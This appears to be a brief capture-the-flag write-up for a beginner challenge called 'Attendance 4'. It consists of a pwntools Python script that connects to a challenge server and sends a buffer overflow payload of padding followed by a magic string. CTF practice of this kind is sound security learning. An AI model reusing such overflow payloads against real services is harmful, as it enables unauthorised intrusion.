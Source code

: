 # Attendance 4 - 27 Sep [1 points] (41 solves)
```python
from pwn import *
context.log_level = 'CRITICAL'
p = remote("chal.firebird.sh",35018)
payload = b"A" * 80 + b"B" * 8 + b"UwU\x00"
p.sendline(payload)

print(p.recvall().decode())
```
